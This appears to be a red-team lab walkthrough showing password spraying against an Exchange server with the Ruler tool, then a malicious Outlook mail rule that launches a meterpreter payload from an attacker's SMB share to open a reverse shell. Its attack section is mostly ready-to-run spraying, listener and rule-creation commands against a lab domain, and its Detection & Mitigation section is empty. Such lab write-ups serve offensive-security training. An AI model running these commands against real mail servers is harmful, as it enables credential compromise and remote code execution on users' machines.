

# Password Spraying Outlook Web Access: Remote Shell

## Context

This lab looks at an attacking technique called password spraying as well as abusing Outlook Web Application by exploiting mail rules to get a remote shell using a tool called `Ruler`.

## Defininitions

**Password spraying** is a form of password brute-forcing attack. In password spraying, an attacker \(with the help of a tool\) cycles through a list of possible usernames \(found using OSINT techniques against a target company or other means\) with a couple of most commonly used weak passwords. 

In comparison, a traditional brute-force works by selecting a username from the list and trying all the passwords in the wordlist against that username. Once all passwords are exhausted for that user name, another username is chosen from the list and the process repeats.

Password spraying could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| ben | Winter2018 |
| ... | Winter2018 |
| john | December2018! |
| ben | December2018! |
| ... | December2018! |

Standard password brute-forcing could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| john | Winter2018! |
| john | Password1 |
| ben | Winter2018 |
| ben | Winter2018! |
| ben | Password1 |

## Password Spraying

Let's try doing a password spray against an Exchange 2016 server in a `offense.local` domain:


```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```



The above shows that password spray was successful against the user `spotless` who used a weak password `123456`.

Note, that if you are attempting to replicate this technique in your own labs, you may need to update your `/etc/hosts` to point to your Exchange server:


## Getting a Shell via Malicious Email Rule

### Process Overview

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage `Ruler` to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

A high level overwiew of how the spraying and remote code execution works:

* assume you have obtained working credentials during the spray for the user `spotless@offense.local`
* with the help of `Ruler`, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of: `if emailSubject contains` **`someTriggerWord`**_`start`_**`pathToSomeProgram`**
* A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`
* User `spotless` logs on to his/her workstation and launches Outlook client to check for new email
* Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in `pathToSomeProgram` which is pointing to a malicious payload giving a reverse shell to the attacker

### Execution

Let's validate the compromised credentials are working by checking if there are any email rules created already:


```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```


The below suggests the credentials are working and that no mail rules are set for this account yet:


To carry out the attack further, I've generated a reverse meterpreter payload and saved it as a windows executable in `/root/tools/evilm64.exe` 

We now need to create an SMB share that is accessible to our victim host and point it to the location where our payload evilm64.exe is located:


```csharp
smbserver.py tools /root/tools/
```


Next, we setup a metasploit listener to catch the incoming reverse shell:


```csharp
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```


Finally, we fire up the ruler and create the malicious email rule:


```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```


Below shows the entire attack and all of the steps mentioned above in action - note how the compromised mailbox does not even get to see the malicious email coming in:



Below shows the actual malicious rule that got created as part of the attack - note the `subject` and the `start` properties - we specified them in the ruler command:


If you want to delete the malicious email rule, do this:


```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```


## Detection & Mitigation



## References










